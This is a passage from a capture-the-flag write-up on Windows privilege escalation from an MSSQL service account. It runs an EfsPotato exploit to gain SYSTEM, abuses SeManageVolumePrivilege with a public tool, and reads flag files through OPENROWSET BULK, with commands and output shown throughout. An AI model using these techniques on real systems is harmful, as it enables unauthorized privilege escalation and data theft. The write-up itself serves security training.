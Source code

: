 The warnings can be ignored.

Running this is quite simple - it just needs the command that you want to run as SYSTEM. For example :

```powershell
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\efs.exe whoami
Exploit for EfsPotato(MS-EFSR EfsRpcOpenFileRaw with SeImpersonatePrivilege local privilege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.

[+] Current user: NT Service\MSSQL$SQLEXPRESS
[!]binding ok (handle=1045990)
[+] Get Token: 748
[!] process with pid: 3980 created.
==============================
nt authority\system
```

## # `SeManageVolumePrivilege` -

```sql
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\Windows\system32> whoami 
nt service\mssql$sqlexpress

CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\Windows\system32> whoami /priv

INFORMACIÓN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripción                                       Estado       
============================= ================================================= =============
SeManageVolumePrivilege       Realizar tareas de mantenimiento del volumen      Habilitada   
```

Download [xct’s repo](https://github.com/xct/SeManageVolumeAbuse/blob/main/SeManageVolumeAbuse/SeManageVolumeAbuse.cpp) and open it in Visual Studio in your Windows VM. Make sure to set the build to Release x64, and then build the project.

```sql
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\v
Success! Permissions changed.
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> type C:\users\cybervaca\desktop\root.txt
b32c5e3e************************
```

## # `Reading files via BULK` -

[This post on MSSQL Tips](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/) talks about how to read a file using MSSQL using the `BULK` option, which was added to SQL Server 2005.

```bash
SQL> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
BulkColumn

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   

b'a01b823bd0d7c97c98646d36d1d03c02\r\n' 
```
